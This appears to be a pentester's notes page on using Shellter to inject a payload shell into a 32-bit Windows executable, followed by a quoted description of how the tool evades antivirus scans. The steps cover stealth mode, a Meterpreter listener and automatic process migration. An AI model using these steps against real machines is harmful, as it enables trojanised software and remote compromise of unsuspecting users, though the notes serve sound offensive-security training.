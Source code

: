 --- ---

<h2>Commands</h2>

```

     1010101 01   10 0100110 10     01  11001001 0011101 001001
        11      10   01 00      01     01     01    10      11   10
        0010011 1110001 11011   11     10     00    10011   011001
             11 00   10 01      11     01     11    01      01   11
        0010010 11   00 0011010 100111 000111 00    1100011 01   10 v7.2


# Shellter
sudo wine shellter.exe
automated mode (a)
Home/.../Something.exe                ---> The exe (32bits) we want to 
Stealth Mode     -> Y
Listed Payload   -> L                 ---> Select a payload shell
Wait...
[Enter]

# Attacking Machine
Set a lisenner or Meterpreter

# Target Machine
Launch the payload
```

- You need an executable to use shllter (a file witch will be used to exploit the other machine)
- Original file is in backups

- Take note that the shell session will be close after the user close the window of the installed exe. To solve this you need to migrate to an other processes
	- If you use multihandler in your shellter shell use the following to automaticly migrate the process: set AutoRunScript post/windows/manage/migrate

More information ---> https://www.youtube.com/watch?v=6xexyQwG7SY

---

<h2>What is Shelter</h2>

Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can
be used in order to inject shellcode into native Windows applications
(currently 32-bit apps only). The shellcode can be something yours or something
generated through a framework, such as Metasploit.

Shellter takes advantage of the original structure of the PE file and doesn't
apply any  modification such as changing memory access permissions in sections
(unless the user wants to), adding an extra section with RWE access, and
whatever would look dodgy under an AV scan.

Shellter is not just an EPO infector that tries to find a location to insert an
instruction to redirect execution to the payload. Unlike any other infector,
Shellter’s advanced infection engine never transfers the execution flow to a
code cave or to an added section in the infected PE file.